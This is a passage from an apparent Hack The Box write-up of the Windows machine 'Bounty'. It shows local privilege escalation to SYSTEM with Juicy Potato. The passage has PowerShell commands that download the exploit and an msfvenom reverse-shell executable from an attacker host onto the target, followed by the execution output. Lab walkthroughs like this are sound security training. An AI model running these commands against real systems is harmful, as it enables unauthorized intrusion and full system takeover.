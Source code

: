 This privilege is designed to allow a service to impersonate other users on the system. Juicy Potato exploits the way Microsoft handles tokens in order to escalate local privileges to **SYSTEM**.

We can get the executable from the [releases page](https://github.com/ohpe/juicy-potato/releases) and upload it to the target web server:

```powershell
(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.12/JuicyPotato.exe',"c:\Windows\System32\spool\drivers\color\JuicyPotato.exe")
```

![](/assets/img/htb/machines/windows/easy/bounty/juice.png)


In order to use this exploit, we need a program to launch. We will be using a reverse shell executable generated via `msfvenom`:

```bash
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=$(vpnip) LPORT=53 -f exe -o privesc.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: privesc.exe
```

Then we transfer it to the target machine:

```powershell
(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.12/privesc.exe',"c:\Windows\System32\spool\drivers\color\privesc.exe")
```

Finally we can execute it and get a shell as **SYSTEM**:

```powershell
PS C:\Windows\System32\spool\drivers\color> .\JuicyPotato.exe -l 1337 -p privesc.exe -t *
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```
